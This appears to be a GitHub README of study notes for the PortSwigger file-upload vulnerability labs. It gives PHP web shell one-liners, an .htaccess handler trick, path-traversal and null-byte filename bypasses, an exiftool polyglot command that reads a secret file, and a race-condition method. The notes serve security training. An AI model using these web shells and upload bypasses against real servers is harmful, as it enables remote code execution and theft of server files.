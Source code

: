 # [File upload vulnerabilities](https://portswigger.net/web-security/file-upload)

## Lab

- apprentice:
  - [1. Remote code execution via web shell upload](./lab/1.%20Remote%20code%20execution%20via%20web%20shell%20upload.md)
  - [2. Web shell upload via Content-Type restriction bypass](./lab/2.%20Web%20shell%20upload%20via%20Content-Type%20restriction%20bypass.md)
- practitioner:
  - [3. Web shell upload via path traversal](./lab/3.%20Web%20shell%20upload%20via%20path%20traversal.md)
  - [4. Web shell upload via extension blacklist bypass](./lab/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass.md)
  - [5. Web shell upload via obfuscated file extension](./lab/5.%20Web%20shell%20upload%20via%20obfuscated%20file%20extension.md)
  - [6. Remote code execution via polyglot web shell up](./lab/6.%20Remote%20code%20execution%20via%20polyglot%20web%20shell%20up.md)
- expert:
  - [7. Web shell upload via race condition](./lab/7.%20Web%20shell%20upload%20via%20race%20condition.md)

## PHP shellcode

```php
<?php echo system($_GET['command']); ?>
```

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

## Exploit

1. directly upload shellcode:
    - [lab](./lab/1.%20Remote%20code%20execution%20via%20web%20shell%20upload.md)
2. change MIME type at Content-Type header to a valid type:
    - [lab](./lab/2.%20Web%20shell%20upload%20via%20Content-Type%20restriction%20bypass.md)
3. if the shellcode upload is successful but when accessing the shellcode, the server does not execute the code, try `path traversal` to upload the shellcode to another directory.
    - ../shellcode.php
    - obfuscation: ..%2fshellcode.php
    - [lab](./lab/3.%20Web%20shell%20upload%20via%20path%20traversal.md)
4. if we encounter blacklist obstacles, try some uncommon extension:
    - html5, php7, htaccess, ...
    - if we can upload a htaccess file, edit the content like this:

    ```htaccess
    AddHandler application/x-httpd-php .html
    ```

    - then try upload shellcode with html extension
    - [lab](./lab/4.%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass.md)
5. obfuscate: shellcode.php%00.jpg
    - [lab](./lab/5.%20Web%20shell%20upload%20via%20obfuscated%20file%20extension.md)
6. polygot web shell:

    ```bash
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
    ```

    - [lab](./lab/6.%20Remote%20code%20execution%20via%20polyglot%20web%20shell%20up.md)
7. race condition
    - start intruder attack with request to expected location of shellcode
    - upload shellcode
    - check if any response with status code 200

    - [lab](./lab/7.%20Web%20shell%20upload%20via%20race%20condition.md)
